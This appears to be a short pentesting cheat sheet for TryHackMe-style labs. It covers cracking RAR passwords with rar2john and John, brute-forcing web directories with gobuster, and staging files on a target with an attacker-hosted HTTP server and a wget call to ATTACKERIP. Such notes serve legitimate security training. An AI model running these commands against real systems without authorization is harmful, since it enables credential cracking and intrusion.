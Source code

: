 <h1 align="center">RED BOOK</h1>
<h2 align="center"> Short examples for pentesting/hacking</h2>
<h3 align="center"> Tryhackme and other sources</h3>

<table>
<tr>
<td align="left">
<strong>RAR2JOHN</strong><br>
Brute force RAR file.<br>
rar2john [rar file] > [output file] <br>
First, extract the hash (password hash) from a RAR file:<br>
/opt/john/rar2john rarfile.rar > rar_hash.txt<br>
Brute force file with rar hash:<br>
john --wordlist=/usr/share/wordlists/rockyou.txt rar_hash.txt<br>
Unpack password protected rar file and enter password found.<br>
unrar rarfile.rar
</td>
</tr>
  <tr>
    <td align="left">
      <strong>GOBUSTER CRAWLER BRUTE FORCE SEARCH WEBPAGES</strong><br>
      Using wordlist, search for directories on webserver to detect what pages webserver have.<br>
      gobuster -u http://WEBPAGE -w WORDLIST.txt dir<br>
      -u is used to state the website we're scanning<br>
      -w takes a list of words to iterate through to find hidden pages<br>
      -dir search for directories
    </td>
  </tr>
  <tr>
    <td align="left">
      <strong>TRANSFER FILES USING HTTP</strong><br>
Start http server with Python (Win) and download files on target with wget request.<br>
On attacker (win): <br>
python3 -m http.server 1234 c:/testdir <br>            
-1234 is port where http server will listen, and in last part is directory for http server (not required)<br>
On target in CMD (win/linux/any):<br>
wget http://ATTACKERIP:1234/SOMEFILEINROOTDIR
    </td>
  </tr>
</table>

